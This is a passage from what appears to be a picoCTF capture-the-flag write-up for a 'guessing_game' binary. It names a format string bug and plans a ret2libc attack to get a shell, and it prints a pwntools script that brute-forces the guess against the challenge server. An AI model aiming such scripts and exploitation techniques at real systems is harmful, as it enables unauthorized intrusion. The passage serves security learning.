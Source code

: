 ```c
			win();
		}
	}
	
	return 0;
}
```

This version of guessing_game is pretty similar to the previous.  It isn't static this time, and get_random() returns the address of rand instead of an actual random number, but other than that the binary is pretty similar.  Since it isn't static we can't do the same attack as last time, but the dynamic linking opens up other avenues of attack.  Also, the vulnerable function now has a string formatting vulnerability as well.  In this case we'll be performing a [ret2libc](https://en.wikipedia.org/wiki/Return-to-libc_attack) attack to get a shell.  


First step is to figure out what number we need to guess to get into the vulnerability function.  I wrote a python script to try everything and figure it out for me.  

```python
from pwn import *
from ctypes import *
import re
import json
import sys

tasks = 4096

checked = {}
def check(i):
	if str(i) in checked:
		return checked[str(i)]
	p = remote("jupiter.challenges.picoctf.org", 28953)
	p.recvline()
	p.recvline()
	p.recvline()
	p.sendline("-" + str(i))
	resp = p.recvline().decode()
	p.close()
	checked[i] = (i, re.search("Congrats!", resp ) != None)
	return (i, re.search("Congrats!", resp ) != None)

try:
	for i in range(tasks):
		if i % 32 == 0:
			print("trying num = ", i)
		c = check(i)
		if c[1] == True:
			print("found!", c)
			open("checked.json","w").write(json.dumps(checked))
			sys.exit()
except (KeyboardInterrupt, SystemExit):
	open("checked.json","w").write(json.dumps(checked))
open("checked.json","w").write(json.dumps(checked))
```
